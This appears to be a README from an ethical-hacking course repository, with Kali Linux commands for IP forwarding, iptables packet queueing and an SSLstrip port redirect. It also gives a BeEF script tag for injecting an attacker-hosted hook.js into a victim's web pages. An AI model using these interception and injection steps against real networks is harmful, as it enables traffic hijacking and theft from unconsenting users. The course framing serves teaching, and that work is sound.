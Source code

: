 # EthicalHackingCourse
Repository for all the code related to Learn Python &amp; "Ethical Hacking From Scratch" course.
All the work is done on Kali Linux, using both Python 2.7 and 3.x version.

## Requirements
Besides the needed libraries stated in *requirements.txt* file, BeEF framework for Kali Linux is Required.

`sudo apt-get install beef-xss`

## Guidelines

### Kali Linux
To enable **IP forwarding**, enter the following command into the terminal:

`echo 1 > /proc/sys/net/ipv4/ip_forward`

To create **net filter queue** (*iptables*), enter the following command:

`iptables -I FORWARD -j NFQUEUE --queue-num <number>`,

where the default `<number>` is `0`.

For local testing, use both `INPUT` and `OUTPUT` chain.

To enable a basic HTTP server, type:

`sudo service apache2 start`

### Python
It seems that *netfilterqueue* does not work on Python 3.x.

### BeEF
The code we want to inject into our victim is:

`<script src="http://<IP>:3000/hook.js"></script>`,

where `<IP>` is the IP of your host server containing *hook.js*.

If you are using a HTTP server, make sure insert the code snippet above into */var/www/html/index.html*.

### SSLstrip
To use SSLstrip, use the following command to enable it in *iptables*:

`iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000`

This makes so that all traffic coming to port 80, which is the default port of HTTP websites,
will instead be redirected to port 10 000, which is the port the SSLstrip tool uses.

Additionally, in order to make SSLstrip work with other packet-modifying tools, we need to change our standard
forwarding *iptables* rule to rules we use for internal testing:

`iptables -I INPUT -j NFQUEUE --queue-num <number>`
`iptables -I OUTPUT -j NFQUEUE --queue-num <number>`

Similarly, the source and destination ports in source code must be changed to 10 000 as well.


